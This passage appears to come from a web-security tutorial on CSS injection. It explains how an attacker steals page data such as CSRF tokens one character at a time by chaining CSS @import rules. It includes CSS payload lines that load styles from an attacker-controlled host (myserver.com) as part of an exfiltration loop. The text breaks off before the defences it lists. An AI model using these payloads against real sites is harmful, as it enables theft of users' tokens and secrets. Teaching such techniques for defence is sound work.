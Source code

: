 ```yaml
---
sidebar_position: 18
---
```


# CSS Injection: Attacking with Just CSS (Part 2)

In the previous post, we learned about the basic principles of CSS data theft and demonstrated it using HackMD as a practical example, successfully stealing the CSRF token. In this post, we will delve into some details of CSS injection and address the following questions:

1. Since HackMD can load new styles without refreshing the page, how can we steal characters beyond the first one on other websites?
2. If we can only steal one character at a time, would it take a long time? Is this feasible in practice?
3. Is it possible to steal things other than attributes? For example, text content on the page or even JavaScript code?
4. What are the defense mechanisms against this attack technique?

## Stealing All Characters

In the previous part, we mentioned that the data we want to steal may change upon refreshing (e.g., CSRF token), so we need to load new styles without refreshing the page.

The reason why we were able to do this in the previous post is that HackMD itself is a service that boasts real-time updates. But what about regular web pages? How can we dynamically load new styles without using JavaScript?

Regarding this issue, Pepe Vila provided an answer in his presentation [CSS Injection Attacks](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf) shared in 2019: [@import](https://developer.mozilla.org/en-US/docs/Web/CSS/@import).

In CSS, you can use `@import` to import external styles, similar to JavaScript's `import`.

You can utilize this feature to create a loop for importing styles, as shown in the code snippet below:

``` css
@import url(https://myserver.com/start?len=8)
```

Then, the server responds with the following style:

``` css
@import url(https://myserver.com/payload?len=1)
@import url(https://myserver.com/payload?len=2)
@import url(https://myserver.com/payload?len=3)
@import url(https://myserver.com/payload?len=4)
@import url(https://myserver.com/payload?len=5)
@import url(https://myserver.com/payload?len=6)
@import url(https://myserver.com/payload?len=7)
@import url(https://myserver.com/payload?len=8)
```
